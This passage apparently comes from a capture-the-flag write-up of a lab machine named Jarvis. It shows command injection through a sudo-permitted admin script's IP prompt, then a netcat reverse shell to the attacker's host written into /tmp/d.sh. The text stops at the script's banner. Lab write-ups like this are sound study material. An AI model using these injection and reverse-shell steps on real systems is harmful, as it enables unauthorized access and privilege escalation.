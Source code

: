 

    www-data@jarvis:/tmp$ sudo -u pepper /var/www/Admin-Utilities/simpler.py -p
    ***********************************************
         _                 _                       
     ___(_)_ __ ___  _ __ | | ___ _ __ _ __  _   _ 
    / __| | '_ ` _ \| '_ \| |/ _ \ '__| '_ \| | | |
    \__ \ | | | | | | |_) | |  __/ |_ | |_) | |_| |
    |___/_|_| |_| |_| .__/|_|\___|_(_)| .__/ \__, |
                    |_|               |_|    |___/ 
                                    @ironhackers.es
                                    
    ***********************************************

    Enter an IP: 10.10.14.$(echo 8)
    PING 10.10.14.8 (10.10.14.8) 56(84) bytes of data.
    64 bytes from 10.10.14.8: icmp_seq=1 ttl=63 time=29.5 ms
    64 bytes from 10.10.14.8: icmp_seq=2 ttl=63 time=31.0 ms
    64 bytes from 10.10.14.8: icmp_seq=3 ttl=63 time=85.5 ms
    64 bytes from 10.10.14.8: icmp_seq=4 ttl=63 time=107 ms
    64 bytes from 10.10.14.8: icmp_seq=5 ttl=63 time=129 ms
    ^C
    --- 10.10.14.8 ping statistics ---
    5 packets transmitted, 5 received, 0% packet loss, time 4006ms
    rtt min/avg/max/mdev = 29.554/76.642/129.727/40.347 ms



My `$(echo 8)` returns 8 and my ping to 10.10.14.8 works.

### Reverse Shell

None of the reverse shells I know of can run without at least one of the
those characters, but I can just write what I want to run into a file,
and then call that file.



    www-data@jarvis:/tmp$ echo -e '#!/bin/bash\n\nnc -e /bin/bash 10.10.14.8 443'
    #!/bin/bash

    nc -e /bin/bash 10.10.14.8 443
    www-data@jarvis:/tmp$
    www-data@jarvis:/tmp$ echo -e '#!/bin/bash\n\nnc -e /bin/bash 10.10.14.8 443' > /tmp/d.sh
    www-data@jarvis:/tmp$ chmod +x /tmp/d.sh
    www-data@jarvis:/tmp$ sudo -u pepper /var/www/Admin-Utilities/simpler.py -p
    ***********************************************
         _                 _
     ___(_)_ __ ___  _ __ | | ___ _ __ _ __  _   _
    / __| | '_ ` _ \| '_ \| |/ _ \ '__| '_ \| | | |
    \__ \ | | | | | | |_) | |  __/ |_ | |_) | |_| |
    |___/_|_| |_| |_| .__/|_|\___|_(_)| .__/ \__, |
                    |_|               |_|    |___/
                                    @ironhackers.es
